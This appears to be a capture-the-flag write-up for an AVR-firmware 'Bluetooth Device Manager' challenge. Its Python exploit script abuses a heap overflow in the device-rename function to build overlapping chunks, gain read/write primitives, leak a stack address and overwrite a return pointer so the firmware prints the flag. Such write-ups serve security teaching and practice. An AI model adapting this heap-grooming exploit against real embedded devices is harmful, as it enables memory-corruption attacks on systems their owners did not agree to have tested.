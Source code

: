 ## Bluetooth Device Manager (200)

### Description

You have a basic car model and would like to enable some extra features? That navigation with traffic should be neat. Right. It is expensive, you know. Or not, if you can access the control interface. Try bluetooth this time. We think, it could be used for purposes other than making calls and playing MP3s.

### Write-up

Another one explotation challenge, "**such heap, much pr0!**" strings in data section give a little hint that heap explotation will be involved.

Firmware implements simple menu with creating, editing and deleting of objects, which are dynamicly allocated on heap. If we will look closer to *"Modify stored device"* code you can notice that during rename new object isn't allocated. Instead previously allocated null terminated string is reused with previous size limit. When I played with inputs I noticed that we can overwrite string termination byte and one byte next after device name, which is *malloc* header of next chunk, things becomes more interesting.

In [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can find how avr allocator is working, it's quite simple comparing to allocator for x86.

Our goal here is to allocate structure with pointers to area that we can control and we can do it by manipulationg chunk sizes, as the result we will have write and read primitive.

When we create new device 3 malloc call is invoked, one for device structure (0xb size) and two calls for *key* and *name* fields with variable size. Our strategy is to create two devices (*dev0* and *dev1*) with shortest *key* and *name* fields, then free *dev0* and create new *dev2* with *key* longer than previous, in that case *dev0* freed *key* chunk won't fit new longer *key* and new chunk will be allocated right next to *dev1* *key*. Next using "buggy" *modify* option we encrease size of *dev1* *key* chunk to 0xb (device structure size), as the result this chunk will overlap with *dev2* *key* chunk, which content can modified. Now we free *dev1* and create new *dev3*, as our prediction *dev3* struc will be allocated on crafted overlapped chunk, *name* and *key* pointer will at our control which gives us read and write primitive:

```python
    new_dev(tty,"a","b")             # dev 0
    new_dev(tty,"c","d")             # dev 1
    del_dev(tty,0)                   # free dev 0
    new_dev(tty,"e","ffffffffffff")  # dev2 with key chunk in the end
    
    edit_dev(tty,1,"z0\x0b","a")     # encrease dev1 key chunk
    del_dev(tty,1)                   # free dev 1
    new_dev(tty,"g","h")             # dev3 with overlapped chunk
```

Few things left to get the flag, to make proper jump we need to now dynamic stack frame size for main function, luckly it's just stored at data section by 0x2192 address. Other thing is that we need to replace 0xDEADBEEF to 0xBAADF00D at 0x2000:

```python
    edit_dev(tty,2,"x","\x01\x01\x01"+"\x01\x20") # set ptr to 0x2001
    edit_dev(tty,2,"x","\x01\x01\x01")            # set ptrl to 0x00 via null terminator
    edit_dev(tty,3,"g",struct.pack("I",0xBAADF00D)+"\xa0\x08\x40\x06\x04\x08\x04\x20") #write 0xbaadf00d and serial config to avoid corruption
    print repr(print_all(tty))
    
    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",0x2192))  # set ptr to 0x2192
    buff=print_all(tty)                           # leak leak stack frame address
    
    dl="key: "
    buff=buff[buff.find(dl)+len(dl):]
    sp=buff[buff.find(dl)+len(dl):][:2]
    sp=struct.unpack("H",sp)[0]                  # extracting stack frame address
    print "stack frame base:", hex(sp)

    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",sp-0x2))
    print edit_dev(tty,3,"g",struct.pack(">H",0x182)) # set return pointer to 0x182, big endian! - flag print
```

After everithing is done properly you will be rewarded with next 200 points.
Full script can be found among files in github repository.
